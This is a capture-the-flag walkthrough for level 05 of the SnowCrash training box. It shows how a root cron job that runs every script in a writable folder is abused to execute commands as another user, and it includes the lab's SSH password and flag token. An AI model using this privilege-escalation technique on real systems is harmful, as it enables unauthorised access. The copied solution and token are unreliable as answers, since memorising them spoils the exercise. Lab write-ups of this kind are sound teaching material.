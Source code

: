 # Level 05 : found flag05

```bash
$ ssh level05@192.168.1.37 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.1.37
level05@192.168.1.37's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`\
This the description of a cron task, to call `/usr/sbin/openarenaserver` every 2 minutes as user `flag05`

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

As we can see, all script shell in the folder `/opt/openarenaserver/` are executed, then deleted.

```bash
level05@SnowCrash:~$ ls -la /opt/openarenaserver/
total 0
drwxrwxr-x+ 2 root root 40 Jan 23 19:20 .
drwxr-xr-x  1 root root 60 Jan 23 10:25 ..
```

And we have the right to create a file there.

```bash
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/flag05" > /opt/openarenaserver/doit
level05@SnowCrash:~$ cat /opt/openarenaserver/doit
/bin/getflag > /tmp/flag05
```

We wait 2 minutes and..
```bash
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

****************************************

Documentations :
* https://www.freeformatter.com/cron-expression-generator-quartz.html